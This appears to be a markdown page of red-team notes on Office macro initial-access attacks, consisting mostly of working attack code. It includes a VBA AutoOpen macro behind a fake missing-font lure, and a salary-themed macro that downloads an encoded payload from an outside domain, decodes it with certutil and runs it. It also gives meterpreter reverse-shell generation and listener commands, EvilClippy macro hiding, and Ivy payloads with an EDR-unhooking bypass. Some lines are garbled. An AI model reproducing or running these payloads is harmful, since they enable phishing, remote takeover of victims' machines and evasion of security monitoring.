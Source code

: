 # MACRO Attack

simple macro 

```
Sub AutoOpen()
    Nooranet
End Sub
Sub Nooranet()
  MsgBox "Download Missing Font Automatic", vbOKOnly, "Missing Font"
  a = Shell("E:\Intial-Access\Macro\screen.cmd", vbHide)
End Sub
```

salaray-1401.xslm

```powershell
```powershell
Sub Auto_Open()
    DownloadAndExec
End Sub
Sub DownloadAndExec()
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "http://nooranetred.com/edr.cert", False
xHttp.Send
With bStrm
.Type = 1 '//binary
.Open
.write xHttp.responseBody
.savetofile "edr.cert", 2 '//overwrite
End With
Shell ("cmd /c certutil -decode edr.cert edr.hta & start edr.hta")
End Sub
```

```
#### payload

```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f hta-psk -o /var/www/html/cert.hta
```

##### 

##### Encode payload

```powershell
$raw = Get-Content -path cert.hta -Encoding Byte
$b64 =[system.Convert]::TOBase64String($raw)
$b64  | Out-File E:\Initial-Access\Macro\edr.cert
```

#### listener

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

## Evil clippy

##### installation

```
git clone https://github.com/outflanknl/EvilClippy
```

```
EvilClippy.exe -g secret-salary.xlsm
```

```
EvilClippy.exe -u secret-salary.xlsm
```

```
EvilClippy.exe -uu secret-salary.xlsm
```

## IVY

#### Installation

```
hgo build Ivy.gottps://github.com/optiv/Ivy
go get github.com/fatih/color
go get github.com/KyleBanks/XOREncryption/Go
go build Ivy.go
```

#### IVY Payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f vbs -o /var/www/html/shell.vbs
```

#### listener

```
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

### Staged Payload

```
ivy -Ix86 shell.vbs -P Inject -O test.js
```

```
cscript //E:jscript whatsapp.js
```

#### Stageless payload

stageless payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f raw -o /var/www/html/shell.bin
```

```
ivy  stageless -Ix86 shell.bin -P Inject -O test.js
```

#### onliner command

```
ivy  -stageless -Ix86 shell.bin -P Inject -O test.png
```

#### Bypass EDR

```command
ivy -stageless -Ix86 shell.bin -P Inject -unhook -O test.png
```

```

```

